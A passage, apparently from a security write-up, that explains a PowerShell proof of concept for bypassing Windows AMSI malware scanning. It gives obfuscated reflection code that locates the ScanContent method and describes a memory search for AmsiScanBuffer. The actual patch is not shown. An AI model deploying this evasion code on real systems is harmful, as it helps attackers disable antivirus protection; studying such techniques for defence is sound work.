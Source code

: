 Finally, I will retrieve all the members inside that class and loop through
them until we find _ScanContent_.

Here's the code:

```
$Assemblies = [appdomain]::currentdomain.getassemblies()
$Assemblies |
  ForEach-Object {
    if($_.Location -ne $null){
         $split1 = $_.FullName.Split(",")[0]
         If($split1.StartsWith('S') -And $split1.EndsWith('n') -And $split1.Length -eq 28) {
                 $Types = $_.GetTypes()
         }
    }
}

$Types |
  ForEach-Object {
    if($_.Name -ne $null){
         If($_.Name.StartsWith('A') -And $_.Name.EndsWith('s') -And $_.Name.Length -eq 9) {
                 $Methods = $_.GetMethods([System.Reflection.BindingFlags]'Static,NonPublic')
         }
    }
}

$Methods |
  ForEach-Object {
    if($_.Name -ne $null){
         If($_.Name.StartsWith('S') -And $_.Name.EndsWith('t') -And $_.Name.Length -eq 11) {
                 $MethodFound = $_
         }
    }
}
```
> Listing {#l:AMSI_script_searches} - Script Searches

Now that we have the function, I will use _ReadProcessMemory_ to read
0x1000000 bytes (0x50000 bytes or 32KB at a time) from the current process
starting from _ScanContent_ going backwards until we find the address of
_AmsiScanBuffer_.

Our proof of concept will take four arguments.

The first argument will be _$InitialStart_, which is the negative offset
from _ScanContent_ that indicates where the search starts. In this case,
I will set it to the default value of _0x50000_ which means I will start
searching -0x50000 bytes from _ScanContent_.

Second, we have _$NegativeOffset_ which is the offset to subtract in each
loop from the _$InitialStart_. In each loop I will read another 0x50000
bytes, going backwards.

Next, we have _$ReadBytes_ which is the number of bytes to read with each
iteration of _ReadProcessMemory_. Here I will also read 0x50000 bytes at a
time.
